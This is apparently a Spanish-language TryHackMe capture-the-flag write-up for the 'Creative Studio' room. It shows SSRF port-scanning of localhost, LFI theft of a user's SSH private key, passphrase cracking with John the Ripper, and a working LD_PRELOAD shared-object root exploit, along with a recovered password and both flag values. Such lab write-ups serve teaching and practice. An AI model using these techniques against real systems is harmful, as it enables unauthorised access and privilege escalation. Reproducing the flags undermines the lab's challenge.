



# TryHackMe - Creative Studio Writeup

## 1. Escaneo 

Como primer punto, empezaremos con la fase de escaneo de puertos. Utilizaremos la herramienta `nmap`:

```bash
nmap -p- --open -n -Pn -T4 --min-rate 8000 -sVC -sS <HOST> -oN <name> -vvv
```

Podemos ver que tenemos los puertos abiertos `22/ssh` y `80/http`:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora utilizamos la herramienta `whatweb` para buscar más información:

```bash
whatweb <HOST>
```

El escaneo nos devuelve un error porque el objetivo tiene un dominio. Al ejecutar `whatweb` con el dominio, no encontramos nada relevante:

```
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.134.13], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```

Revisando el protocolo HTTP encontramos una página web:


### Enumeración de directorios

Utilizamos la herramienta `ffuf` para buscar directorios ocultos:

```bash
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200
```

Solo encontramos el directorio oculto `assets`, pero no contiene nada relevante. Procedemos a enumerar subdominios:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H "HOST:FUZZ.creative.thm" -fw 6
```

Encontramos el subdominio `beta`. Lo agregamos a `/etc/hosts` y revisamos su contenido. Observamos una página en la URL `beta.creative.thm`, lo que sugiere un posible **SSRF** (Falsificación de Solicitudes del Lado del Servidor).



Al ingresar a `http://127.0.0.1`, nos redirige a la página principal de "Creativo". Realizaremos un ataque de fuerza bruta para encontrar posibles puertos internos con `ffuf`.

Primero, generamos una lista de puertos:

```bash
seq 65535 > puertos.txt
```

Luego, realizamos el ataque:

```bash
ffuf -w puertos.txt -u http://beta.creative.thm -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```

Resultado:

```
80                      
1337 
```

En el puerto `1337`, encontramos un servidor oculto que tiene un **LFI (Local File Inclusion)**:



### Explotación de LFI

Al aprovechar el LFI, encontramos un usuario llamado `saad` y accedemos a su archivo `id_rsa`:



El archivo `id_rsa` está protegido con una contraseña. Utilizamos `ssh2john` para generar un hash y `john the ripper` para crackearlo:

```bash
ssh2john id_rsa > passwd.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
```

Obtenemos la contraseña: `sweetness`. Con esto, accedemos al servidor como `saad` mediante SSH.

### Primera Flag

Al conectarnos con `saad`, obtenemos la primera flag:

```
9a1ce90a7653d74ab98630b47b8b4a84
```

---

## 2. Escalada de privilegios

Al revisar `.bash_history`, encontramos la contraseña de `saad`:

```
saad:MyStrongestPasswordYet$4291
```

Usamos el comando `sudo -l` y descubrimos que podemos escalar privilegios utilizando `LD_PRELOAD`. Seguimos estos pasos:

1. Nos movemos a `/tmp` y creamos un archivo en C con el siguiente código:

```c
#include <stdio.h>
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setgid(0); 
    setuid(0); 
    system("/bin/sh"); 
}
```

2. Lo compilamos:

```bash
gcc -fPIC -shared -o name.so name.c -nostartfiles
```

3. Verificamos que se creó correctamente:

```bash
ls -la name.so
```

4. Ejecutamos el exploit con `ping`:

```bash
sudo LD_PRELOAD=/tmp/name.so ping
```

### Segunda Flag

Con privilegios elevados, obtenemos la flag final:

```
992bfd94b90da48634aed182aae7b99f
```

---

¡Writeup completo! 🚩

